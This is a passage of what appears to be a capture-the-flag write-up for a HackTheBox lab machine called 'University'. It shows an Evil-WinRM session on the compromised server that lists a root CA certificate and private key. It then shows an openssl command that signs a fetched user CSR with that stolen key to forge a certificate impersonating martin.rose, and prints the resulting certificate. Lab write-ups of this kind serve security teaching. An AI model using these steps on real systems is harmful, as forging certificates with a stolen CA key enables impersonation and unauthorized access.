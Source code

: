 Most of it is pretty mid... until I spot professor Nya’s CSR sitting there all cute. Little endpoint fuzzing later and now I’ve also yoinked `martin.rose`’s CSR at `http://university.htb/static/assets/uploads/CSRs/5.csr`.

```console
*Evil-WinRM* PS C:\Web\University\CA> dir

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        2/15/2024   5:51 AM           1399 rootCA.crt                                                            
-a----        2/15/2024   5:48 AM           1704 rootCA.key                                                            
-a----       12/22/2024  12:16 PM             42 rootCA.srl
```

Since we've basically got the keys to the kingdom (rootCA cert + key from the server), I whip up a professor cert for Martin like I'm running my own shady university IT department. Openssl be like “Certificate request self-signature ok” — yeah, it better be.

```console
$ openssl x509 -req -in 5.csr -CA rootCA.crt -CAkey rootCA.key -CAcreateserial

Certificate request self-signature ok
subject=C = AU, ST = Some-State, O = Internet Widgits Pty Ltd, CN = martin.rose, emailAddress = martin.rose@hotmail.com
-----BEGIN CERTIFICATE-----
MIIDiDCCAnACFAnHyzdMyxB5iESwk+CesiDIkfZUMA0GCSqGSIb3DQEBCwUAMH0x
CzAJBgNVBAYTAlVLMRMwEQYDVQQIDApTb21lLVN0YXRlMRcwFQYDVQQKDA5Vbml2
ZXJzaXR5IEx0ZDEXMBUGA1UEAwwOdW5pdmVyc2l0eS5odGIxJzAlBgkqhkiG9w0B
CQEWGGhlYWRhZG1pbkB1bml2ZXJzaXR5Lmh0YjAeFw0yNDEyMjIxNDE4NDFaFw0y
NTAxMjExNDE4NDFaMIGDMQswCQYDVQQGEwJBVTETMBEGA1UECAwKU29tZS1TdGF0
ZTEhMB8GA1UECgwYSW50ZXJuZXQgV2lkZ2l0cyBQdHkgTHRkMRQwEgYDVQQDDAtt
YXJ0aW4ucm9zZTEmMCQGCSqGSIb3DQEJARYXbWFydGluLnJvc2VAaG90bWFpbC5j
b20wggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDaICIYiWqNnf96BDs0
Uu+dt2+AGrfBLJ2M1YRqW7QERj5i2CWCGWgZqoQFLd7RSJFsBmtMMhhaHR+hNoD6
odjTuhPcEbDxUkdAXAY9yqGpzFcy69+Cuv5gDoDUcQoDAIggdS4mRe50j6Gsdx4n
y+vdLAfXEcKszErBdMrmF9f9bj3YP1qwfnXw4BiL82xWk1FV74DRxoQauFuZTkFJ
QbS3/FIA/R2oLvbmcPDXezKG6phb2e6lplbSsAXnDU8xwFLvrd9K2WsB6dvQxk+o
wn09IXmiI1g8j4UFgP5GzUMOirmn8nlj93H8QK/exmLMIlgZb9DWg2uBNO9yMSXY
epZVAgMBAAEwDQYJKoZIhvcNAQELBQADggEBACu3wfyYax3hazAA2wAzD48S1X8G
Vb2l5GFL7ZdK2xniJbmUnXw3jhqUDcyVQGHfKUDXO5ZgViHiaX+mHpKh7KaYJDll
LhrbaGrzOxZncsKHt+UM7yHYsnPZoWH+VfoCQqwKylZIHinuPWPsNgIkSGF0/tae
/SXdZRIPQrbrTqMEvtQ2PCes6nGVTeLo+0oSB7jRO8+Ur6rEMDstGLVOEKVZreRs
MN2k4hq7lST6Xr82Zs9iSwlAwsKa4aYrkAxaVptgyXcUdKD4xbk+Wde8cdA3mV/b
cJxT1hFdCYlYZ1chHGSU6yRArmoGiIOjM/19yDhzjiRyd8MeosIl2Vq/czA=
-----END CERTIFICATE-----
```
